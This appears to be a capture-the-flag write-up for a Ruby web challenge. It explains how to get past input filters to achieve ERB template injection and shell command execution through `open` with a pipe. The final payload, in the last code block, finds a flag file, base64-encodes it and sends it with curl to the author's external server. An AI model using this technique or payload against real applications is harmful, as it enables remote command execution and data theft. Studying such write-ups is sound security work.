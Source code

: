 # master_of_calculator&emsp;<sub><sup>Web, 250 points</sup></sub>

_Writeup by [@bluepichu](https://github.com/bluepichu)_

This problem provides a calculator service in Ruby that does some ROI calculations based on some input parameters.  The only main file of interest is `home_controller.rb`, which checks the inputs against a set of filters, then templates the user's input into an ERB template and evaluates it.

I noticed immediately that `open` and `|` were both not present in the filter, which is important since opening a filename in ruby that starts with `|` will spawn a shell and execute the remainder of the filename as a command.  However, every way of producing a string literal was filtered, as well as parens.

Fortunately, getting around both of these is not too complicated.  Parens around function arguments in single-argument functions are optional in Ruby, so we can just call `open` without parens.  To constuct the string, we can instead use a regular expression literal and then access `.source` on it to get a string with the same content.

However, this is not enough to solve the problem on its own, because all of the places we can insert `open /|command_here/.source` will be positions where some other operation will bind too tightly to either `open` or its argument.  (For example, naively substituting it for `exit_price` wouldn't work because that appears in the expression `(#{exit_price} - #{entry_price})`, and Ruby will complain that strings don't have a `-` method.)  However, you can introduce a block without using braces (which are also filtered) by adding a loop construct; the one I came up with was `1.times do ... end`.

Putting this all together and writing an exploit that wouldn't get filtered, my solution was to submit `1` for `user_leverage`, `user_entry_price`, and `user_exit_price` and submit the following for `user_quantity`:

```
1.times do open /|ls|grep flag|xargs cat|base64|xargs echo http:\/\/pichu.blue\/|sed s\/\\x20\/\/|xargs curl/.source end
```

This script locates the flag file, base64 encodes it, and sends it to my server.